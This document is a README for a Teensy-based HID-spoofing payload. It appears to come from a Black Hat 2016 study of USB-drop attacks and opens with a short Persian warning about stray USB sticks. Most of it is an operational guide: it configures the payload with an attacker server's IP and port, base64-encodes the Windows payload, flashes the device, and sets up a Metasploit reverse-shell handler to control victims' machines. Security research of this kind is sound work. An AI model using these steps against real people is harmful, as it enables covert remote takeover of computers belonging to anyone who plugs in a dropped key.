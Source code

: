 مراقب<div dir=rtl><p> usb ها ی که در زمین هستند باشیم // این ساختارها میتونن ابزاری برای نفوذ به سیستم های شما باشن </p></div>
#HID spoofing multi-OS payload for Teensy

This code allows to create a cross-platform HID spoofing payload that
will spawn a reverse TCP-shell on Windows and OSX.

It was developed as part of the presentation I made at Blackhat USA 2016:
[Does Dropping USB drives in parking lots and other places really work?](https://www.elie.net/publication/does-dropping-usb-drives-really-work) to show how to create realistic HID spoofing keys that can be used in USB key drop attack.

For more information on how to make realistic HID spoofing key see my [blog post on the subject](https://www.elie.net/malus)

# Environment setup

To get the payload working you need:
1. A Teensy. You can get one from [Amazon](http://amzn.to/2anjrMs) or [PRJC](https://www.pjrc.com/store/teensy32.html) directly
2. The Arduino environment with Teensyduino to compile your payload and the Teensy loader to upload the payload to your Teensy. See [instructions here](https://www.pjrc.com/teensy/index.html)

If you want to conceal the Teensy into a realistic key follow the instruction locate in the last third of my [blog post on the subject](https://www.elie.net/malus)

# Configuring the payload
The payload need to be configured to connect to the server of  your choice. There is to way to do it:
## Use the Python configuration script
That is the easy way and should work on most OSX and Linux or even Windows computers
as long as Python is installed. To run it simply invoke:
```
cd payload
python configure_payload.py IP PORT
```
where *IP* is the IP of the server and *PORT* is the TCP port you want the connection back. Your configured payload is available in the file **configured_payload.c**.

## Manual configuration
If you don't have python, something went wrong or want to do it manually. Here is
what you need to do:
  1. Edit the OSX payload from  **payload/payload_osx.sh** to
  replace the constant IP and PORT with the one from your server
  2. Replace in **payload/payload.c** the *OSX_PAYLOAD_STR* string with your customized payload
  3. Edit the Windows payload from  **payload/payload_win.ps** and replace the constant IP and PORT with the one from your server
  4. Compress and encode it with: `cat payload | gzip -c | base64`
  5. Replace the *WIN_PAYLOAD_STR* string in the **payload/payload.c** with the output of the previous command. The *WIN_PAYLOAD_STR* string is in the middle of the Windows payload.

# Compiling and uploading payload to the Teensy
Once the payload is configured, to get your Teensy up and running all you need to do is:
1. Create a new project in Arduino environment
2. In Tool make sure that the *Board* option is set to *"Teensy 3.2 / 3.1"*
3. The Tool again set the *USB Type* option is set to : *"Serial + Keyboard + Mouse + Joystick"*
4. copy/past the code in the Arduino environment
5. Check that it is working by pressing the verify button
6. Press the compile and upload button to program your Teensy

Congratulation your Teensy is ready to go.


# Configuring the server

The server aspect requires to have a server that have a static IP that is reachable form Internet. We are going to use the generic Metasploit multi handler to control the reverse shell(s). Here is briefly how to do it, for more information please read the [Metaploit documentation](https://help.rapid7.com/metasploit/index.html)

1. Install and launch Metasploit
2. Load the multi-handler `use exploit/multi/handler`
3. Set the Payload to reverse-shell `set payload osx/x64/shell_reverse_tcp` Despite the name, it will works for all OS
4. Set the IP of the server `set LHOST YOUR_IP`
5. Set the PORT of the server `set LPORT YOUR_PORT`
6. Tell Metasploit to not close the plugin when a session disconnect: `set ExitOnSession false`
7. Launch the paylaod: `exploit -j -z`

# Controlling a reverse shell

When a key is plugged you will see a log message indicating a new session is connected. You get the list of sessions by issuing the command:
```
sessions -l
```

To control a specific session:
```
sessions -i session_id
```
